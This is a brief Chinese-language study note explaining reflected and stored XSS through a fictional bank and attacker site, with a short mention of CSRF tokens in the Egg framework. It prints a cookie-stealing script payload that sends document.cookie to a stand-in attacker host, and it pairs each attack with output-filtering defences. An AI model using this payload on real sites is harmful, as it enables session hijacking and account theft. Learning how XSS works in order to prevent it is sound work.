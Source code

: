 # xss

## 反射型

非持久化，每次触发都需要用户去点击（url）。

页面直接输出用户输入的内容（url上的内容），如果用户输入js脚本，页面会输出执行该js脚本。

案例：

1. 一个正规的网站（银行网站`www.yinhang.com`）存在反射型xss。
2. 黑客利用这个漏洞，并调整url参数，使得访问该网址时执行一个js脚本：` www.yinhang.com?name=<script>window.open('http://www.heike.com?cookie='+document.cookie)</script>`。
3. 自己编写一个网站`www.heike.com`，用于接收js脚本发起的请求来获取cookie
4. 拿到cookie，利用该cookie，伪装自身进行一系列非法操作。

黑客的网址接收到这个cookie，即可通过这个cookie来访问银行网址。做出非法的操作。

## 解决

因此，所有的用户输入的内容在输出时，都必须进行过滤。或者将其作为一个纯文本执行，而非html代码执行。

## 存储型

持久化，将用户录入的信息存储在库中。

案例：

1. 一个正规的网站（银行网站`www.yinhang.com`）存在存储型xss。
2. 黑客利用这个漏洞，提前往数据库录入一个脚本内容，使得访问该网址时，会执行这段js脚本（`<script>window.open('http://www.heike.com?cookie='+document.cookie)</script>`）。
3. 自己编写一个网站`www.heike.com`，用于接收js脚本发起的请求来获取cookie。
4. 拿到cookie，利用该cookie，伪装自身进行一系列非法操作。

## 解决

因此，所有的用户输入的内容在输出时，都必须进行过滤。或者将其作为一个纯文本执行，而非html代码执行。

## 总结

xss简单的说就是用户的注入，然后显示（存储后显示给其他，直接显示）出来。如果显示的时候过滤了，那不就行了。

1. 如果是富文本编辑，那么必然存在标签，不能过滤，只能在将这个内容显示时，用纯文本显示，而非html文本显示。
2. 如果是有严格要求，则禁止录入任何标签，或者直接过滤掉标签。

# csrf

egg的csrf可以修改它的变量名，而且默认会在cookie上放csrfToken，可以配置去掉。具体看官网。